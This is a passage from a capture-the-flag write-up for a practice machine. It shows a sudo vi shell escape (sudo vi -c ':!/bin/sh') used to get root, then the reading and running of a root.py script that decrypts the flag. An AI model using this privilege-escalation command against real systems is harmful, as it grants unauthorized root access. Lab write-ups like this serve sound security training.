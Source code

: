 let's exploit it .

Browe to this website [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for vi bin exploit :

![image-20210120234603674](writeup.assets/image-20210120234603674.png)

so , this line was the exploit of the vi bin :) .

let's get the root flag now .

```bash
charlie@chocolate-factory:/$     sudo vi -c ':!/bin/sh' /dev/null

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root      
# ls
root.py
# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
# 

```

so the root flag was python file , but this python file is able to generate our root flag :).

and as you can see , he need a key , yes it's the key of the first question . 

let's get it finally .

```bash
print(mess)# python root.py
Enter the key:  b'-VkgXh********C6YR-SZbiuSb8********cGSQzY='
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

```